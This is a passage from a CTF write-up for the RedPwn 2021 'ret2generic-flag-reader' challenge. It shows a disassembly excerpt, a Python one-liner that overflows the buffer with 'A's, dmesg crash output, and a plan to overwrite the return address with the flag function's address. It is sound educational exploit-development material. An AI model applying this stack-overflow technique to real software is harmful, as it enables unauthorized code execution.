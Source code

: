 ```asm
   0x000000000040139d <+423>:   call   0x4010b0 <fclose@plt>
   0x00000000004013a2 <+428>:   nop
   0x00000000004013a3 <+429>:   leave
   0x00000000004013a4 <+430>:   ret
End of assembler dump.
```

...Looks like the function starts at address `0x00000000004011f6`. So we need to return to `0x00000000004011f6` from `main()` somehow. 


7. We run the program normally and use python to print out a bunch of `A` until we get a segfault. In this case, 40 A's gave us a segmentation fault. We use `dmesg | tail` to figure out what's going on.
  
```
❯ python2 -c "print('A'*40)" | ./ret2generic-flag-reader
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
alright, the rob inc company meeting is tomorrow and i have to come up with a new pwnable...
how about this, we'll make a generic pwnable with an overflow and they've got to ret to some flag reading function!
slap on some flavortext and there's no way rob will fire me now!
this is genius!! what do you think?
[1]    19478 done                python2 -c "print('A'*40)" |
       19479 segmentation fault  ./ret2generic-flag-reader
 ~/CTF/RedPwn2021/writeup_RedPwn2021/pwn/SOLVED_ret2generic-flag-reader │ pwn ?1 ▓▒░────────░▒▓ 0|SEGV х │ 12:16:17 PM
❯ dmesg | tail
[328909.667233] ret2generic-fla[19857]: segfault at 7f848d7b14d0 ip 00007f848d7b14d0 sp 00007ffe88da9538 error 15
[328909.667236] Code: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 <00> 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

So we have a segfault at 7f848d7b14d0. Let's write 41 As and see what happens to that address.

```
[328992.779647] ret2generic-fla[19868]: segfault at 7fbe2f150041 ip 00007fbe2f150041 sp 00007fff48f61740 error 15 in libc-2.31.so[7fbe2f131000+25000]
```

Looks like our A's are overflowing the address where segfault is occuring, that is, where the program is trying to return too. 

8. So all we have to do, is replace `7fbe2f150041` in the dmesg with the address pointer of our flag printer function, and instead of a Segfault the `main()` will actually return there, because unlike `7fbe2f150041`, that address, specifically `0x00000000004011f6` (found from the disassembly) actually exists.


9. So we have to write 40A's or NoOps and then fill the next 6 bytes with `0000004011f6`
